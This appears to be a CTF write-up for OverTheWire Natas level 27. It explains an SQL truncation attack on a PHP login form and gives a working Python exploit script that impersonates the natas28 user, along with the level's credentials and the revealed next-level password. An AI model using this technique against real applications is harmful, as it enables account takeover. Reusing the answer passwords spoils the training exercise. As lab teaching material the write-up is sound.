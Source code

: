 # Level 27

## Challenge Details 

- **CTF:** OverTheWire
- **Category:** Natas

## Provided Materials

- [http://natas27.natas.labs.overthewire.org](http://natas27.natas.labs.overthewire.org)
- username: `natas27`
- password: `PSO8xysPi00WKIiZZ6s6PtRmFy9cbxj3`

## Solution

![start](./start.jpg)

Let's analyze the code step-by-step *(Starting from where we send the `username` and `password`)*:

```php
# If username and password are set
if(array_key_exists("username", $_REQUEST) and array_key_exists("password", $_REQUEST)) {
    # connection to db (not interesting)
    $link = mysqli_connect('localhost', 'natas27', '<censored>');
    mysqli_select_db($link, 'natas27');

    # if user is valid
    if(validUser($link,$_REQUEST["username"])) {
        ...
}
```

Let's see, what means `user is valid`:

```php
function validUser($link,$usr){
    # escape special characters from the username string
    $user=mysqli_real_escape_string($link, $usr);

    # normal select query
    $query = "SELECT * from users where username='$user'";
    # result from the query
    $res = mysqli_query($link, $query);
    # if there are some entries, that means that the user exists
    if($res) {
        if(mysqli_num_rows($res) > 0) {
            return True;
        }
    }
    return False;
}
```

Let's get back to the main code:

```php
if(validUser($link,$_REQUEST["username"])) {
    # If we are here, that means that the user exists
    # credentials check
    if(checkCredentials($link,$_REQUEST["username"],$_REQUEST["password"])){
    	...  
```

Let's see `checkCredentials` function:

```php
function checkCredentials($link,$usr,$pass){

    # escape special characters in username and password
    $user=mysqli_real_escape_string($link, $usr);
    $password=mysqli_real_escape_string($link, $pass);

    # normal select query
    $query = "SELECT username from users where username='$user' and password='$password' ";
    # result query
    $res = mysqli_query($link, $query);
    # if there are some entries, that means that the credentials are valid
    if(mysqli_num_rows($res) > 0){
        return True;
    }
    return False;
}
```

Back to main code:

```php
if(checkCredentials($link,$_REQUEST["username"],$_REQUEST["password"])){
    # If we are here, that means that the credentials are valid
    echo "Welcome " . htmlentities($_REQUEST["username"]) . "!<br>";
    echo "Here is your data:<br>";
    # Output from dump data
    $data=dumpData($link,$_REQUEST["username"]);
    ...
```

Let's see `dumpData` function:

```php
function dumpData($link,$usr){

    # Again escape special characters in username
    # And VERY IMPORTANT thing here: username is getting trimmed!
    $user=mysqli_real_escape_string($link, trim($usr));

    # normal select query on TRIMMED username
    $query = "SELECT * from users where username='$user'";
    $res = mysqli_query($link, $query);
    # If there are some entries, then we will see the result
}
```

Back to main code:

```php
if(array_key_exists("username", $_REQUEST) and array_key_exists("password", $_REQUEST)) {
    ...
    if(validUser($link,$_REQUEST["username"])) {
        if(checkCredentials($link,$_REQUEST["username"],$_REQUEST["password"])){
            ...
        }
        else{
            # When password was wrong for the username
            echo "Wrong password for user: " . htmlentities($_REQUEST["username"]) . "<br>";
        }
    }
    # also VERY IMPORTANT part starts here
    else {
        # user doesn't exist
        if(createUser($link,$_REQUEST["username"],$_REQUEST["password"])){
            ...
}
```

Let's analyze `createUser` function:

```php
function createUser($link, $usr, $pass){

    # If there are some spaces before or after username
    # Note, that trim trims only from left and right side, not in the middle
    # ' a' -> 'a' 
    # 'a ' -> 'a'
    # 'a a' -> 'a a'
    if($usr != trim($usr)) {
        echo "Go away hacker";
        return False;
    }
    # IMPORTANT: Escape username and password and trim them to 64 characters 
    # As in database definition: `username` varchar(64)
    $user=mysqli_real_escape_string($link, substr($usr, 0, 64));
    $password=mysqli_real_escape_string($link, substr($pass, 0, 64));

    # Insert those escaped and trimmed values
    $query = "INSERT INTO users (username,password) values ('$user','$password')";
    ...
}
```

So, let's summarize the process:

- **If username doesn't exists**:
  - Trim username (and password) to 64 characters *(username must be equal to trimmed username!)*
  - Insert those values
- **Otherwise**:
  - Check if user is valid **(nothing trimmed here!)**
  - Check credentials **(nothing trimmed here!)**
  - Output results *(`dumpData`)* **(THE USERNAME GETS TRIMMED!)**

So by now you should already have a rough idea of the solution, let's get into it!
No wonder, that the user `natas28` already exists in a database.
If we try to create user `natas28 + <64 - 7(natas28 length)> spaces + any character`, so it will be `natas28 + spaces = 64 characters` + `any character`. Why do we need to make so? *([SQL Truncation Attack](https://dyn20.gitbook.io/writeup-ctf/root-me/sql-truncation))* Because it will pass this check:

```php
# If there are some spaces before or after username
# Note, that trim trims only from left and right side, not in the middle
# ' a' -> 'a' 
# 'a ' -> 'a'
# 'a a' -> 'a a'
if($usr != trim($usr)) {
    echo "Go away hacker";
    return False;
}
```

And input in a database only `natas28 + 57 spaces`. 
Next we need to login as `natas28 + 57 spaces`, and as we have inserted user `natas28 + 57 spaces`, we will also pass `validUser` and `checkCredentials` checks. And then `dumpData` function will give us all entries of the **TRIMMED** username *(in our case -> `natas28`)*. Here is `python` script:

```py
import requests

# Base URL
url = 'http://natas27.natas.labs.overthewire.org'

# Function to make two GET requests (first one to create the user, second one - to get the info)
def send_2_get_requests():

    # Our parameters to pass $usr != trim($usr) check
    params = dict(username="natas28"+" " * 57 + "x", password="")
    
    headers = {
        'Authorization': 'Basic bmF0YXMyNzpQU084eHlzUGkwMFdLSWlaWjZzNlB0Um1GeTljYnhqMw==',
        'Content-Type': 'application/x-www-form-urlencoded',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.88 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
        'Accept-Encoding': 'gzip, deflate, br',
        'Accept-Language': 'ru-RU,ru;q=0.9,en-US;q=0.8,en;q=0.7',
        'Connection': 'close',
        'Cache-Control': 'max-age=0',
        'Origin': 'http://natas27.natas.labs.overthewire.org',
        'Referer': 'http://natas27.natas.labs.overthewire.org/',
        'Upgrade-Insecure-Requests': '1'
    }

    # Make the POST request with out params
    response = requests.post(url, headers=headers, params=params)

    # This will pass `validUser` and `checkCredentials` checks
    # And `dumpData` will trim the username (natas28 + spaces -> natas28)
    params = dict(username="natas28"+" " * 57, password="")

    # Make the second POST request with new params
    response = requests.post(url, headers=headers, params=params)

    return response.text

response = send_2_get_requests()
print(response)
```

Output:

```
Welcome natas28                                                         !<br>Here is your data:<br>Array
(
    [username] =&gt; natas28
    [password] =&gt; skrwxciAe6Dnb0VfFDzDEHcCzQmv3Gd4
)
```

## Password

`natas28`:`skrwxciAe6Dnb0VfFDzDEHcCzQmv3Gd4`

*Created by [bu19akov](https://github.com/bu19akov)*